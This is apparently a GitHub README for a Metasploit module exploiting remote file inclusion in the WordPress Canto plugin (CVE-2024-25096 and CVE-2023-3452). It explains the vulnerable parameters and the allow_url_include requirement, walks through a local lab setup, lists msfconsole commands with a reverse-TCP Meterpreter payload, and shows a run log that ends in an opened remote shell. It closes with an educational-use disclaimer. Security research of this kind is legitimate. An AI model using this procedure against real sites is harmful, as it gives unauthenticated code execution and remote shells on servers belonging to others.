




# Metersploit exploit module canto RCE CVE-2024-25096 & CVE-2023-3452

This exploit is a proof-of-work exploit of the RFI vulnerabilities CVE-2024-25096 and CVE-2023-3452,
which allow the attacker to establish an interactive remote shell session on the target.

CVE-2024-25096 abuses the abspath parameter, which allows remote file
inclusion through the include_once statement.
CVE-2023-3452 has the same procedure, except that the “wp_abspath” parameter allpws remote file inclusion though 
the requiere_once statement.
This allows the attacker to execute unauthenticated code on the target server.

Although vulnerability databases list CVE-2023-3452 as affecting versions up to 3.0.4,
testing confirmed that the vulnerability remains exploitable up to version 3.0.6.
The issue was patched in version 3.0.7, the same version that fixes CVE-2024-25096.


## Requirements

The following conditions are required for the target to be vulnerable:

- installed canto plugin <= 3.0.6
- ```allow_url_include=On ```
  
## Usage

### Test Target Configuration

Clone this repo and download the canto plugin

[Download Canto 3.0.4](https://downloads.wordpress.org/plugin/canto.3.0.4.zip)

[Download Canto 3.0.5](https://downloads.wordpress.org/plugin/canto.3.0.5.zip)

[Download Canto 3.0.6](https://downloads.wordpress.org/plugin/canto.3.0.6.zip)

Note that if you want to download an earlier version of Canto, simply copy the link and change the version number in the link to your preferred version.

Start the container (docker-compose.yaml) with ```podman-compose up``` command.
Open http://localhost:8889/wp-admin/install.php in a browser of your choice and set up a wordpress account.



After logging in, you can select and install the canto zip file under the tab Plugins -> Add new plugins -> Plugin Upload.




### Exploit Configuration
Add the exploit (```rce_exploit_cve_2024_25096.rb```) to metasploit module folder.
Start Metasploit (```msfconsole```) and reload Metasploit (```reload_all```).
Select the payload.

```bash
cp explit/wordpress_canto_plugin_file_include_rce.rb ~/.msf4/modules/exploits/
msfconsole
reload_all
search rce_exploit_cve_2024_25096
use 0
```
set the values of the required variables

```bash
Module options (exploit/rce_exploit_cve_2024_25096):

   Name        Current Setting            Required  Description
   ----        ---------------            --------  -----------
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS      127.0.0.1                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       8889                       yes       Port
   SRVHOST     0.0.0.0                    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080                       yes       The local port to listen on.
   SSL         false                      yes       Use SSL
   SSLCert                                no        Path to a custom SSL certificate (default is randomly generated)
   TARGETFILE  get.php                    yes       Vulnerable PHP file
   TARGETURI   /wp-content/plugins/canto  yes       Path to cantos root directory
   URIPATH                                no        The URI to use for this exploit (default is random)
   VHOST                                  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.58   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress Plugin <= 3.0.6


View the full module info with the info, or info -d command
```

Run the exploit and hope for the best ;)
```bash
[msf](Jobs:0 Agents:0) exploit(rce_exploit_cve_2024_25096) >> run
[*] Started reverse TCP handler on 192.168.178.58:4444 
[*] Starting HTTP server...
[*] Using URL: http://192.168.178.58:8080/14Gs3AAu8j4
[*] Triggering RFI...
[*] Sending admin.php payload
[*] Sending stage (42137 bytes) to 192.168.178.58
[*] Meterpreter session 2 opened (192.168.178.58:4444 -> 192.168.178.58:54310) at 2026-03-01 20:15:23 +0100
[*] Server stopped.

(Meterpreter 2)(/var/www/html/wp-content/plugins/canto/includes/lib) >
```

## Disclaimer

This project is provided for educational and security research purposes only.

The author does not encourage or condone illegal activities. Any use of this code for attacking systems without permission is strictly prohibited.

The author is not responsible for any misuse or damage caused by this software. Users are responsible for ensuring that they comply with all applicable laws and regulations.

Use this code only in environments where you have explicit permission, such as lab environments, penetration testing engagements, or security research.